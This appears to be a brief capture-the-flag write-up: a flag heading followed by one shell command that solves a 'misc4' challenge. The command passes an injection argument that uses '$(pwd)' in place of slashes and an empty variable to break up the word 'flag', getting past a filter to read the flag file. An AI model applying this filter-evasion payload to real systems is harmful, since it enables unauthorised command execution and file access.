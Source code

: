 
# ais3{I_AM_NOT_FAMALIAR_WITH_IT}

```sh
./shell 'cd ..;cd ..;$(pwd)bin$(pwd)cat $(pwd)home$(pwd)misc4$(pwd)fla${INF}g'
```